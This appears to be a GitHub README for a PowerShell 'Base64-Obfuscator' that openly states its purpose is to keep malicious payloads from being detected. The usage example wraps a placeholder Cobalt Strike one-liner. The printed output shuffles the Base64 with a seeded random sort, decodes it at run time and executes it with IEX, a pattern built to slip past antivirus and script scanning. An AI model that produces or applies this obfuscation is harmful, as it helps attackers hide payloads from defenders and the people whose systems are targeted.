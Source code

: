 # Base64-Obfuscator
Simple PowerShell Base64 encoder to avoid detection of your malicious payload

# Usage 
```
import-module .\Obfuscator.ps1; Base64-Obfuscator -Data "U3VwZXIgTWFsaWNpb3VzIENvYmFsdCBTdHJpa2UgQmFzZTY0IG9uZWxpbmVy"
Encoded Base64 Output
===========================================================

$WhEY = [Text.Encoding]::ASCII.GetString(([Text.Encoding]::ASCII.GetBytes("QgUmZzF2dTBHapJpxWbyVmZ0YTIu9GFWTsNWagV3UwIXZmYvFCdsN3bpVEIz") | Sort-Object { Get-Random -SetSeed 817481231 })); $HlriAZojTKF = [Text.Encoding]::ASCII.GetString([Convert]::FromBase64String($WhEY)); IEX $HlriAZojTKF
```

# Credit
Mr.Un1k0d3r RingZer0 Team 
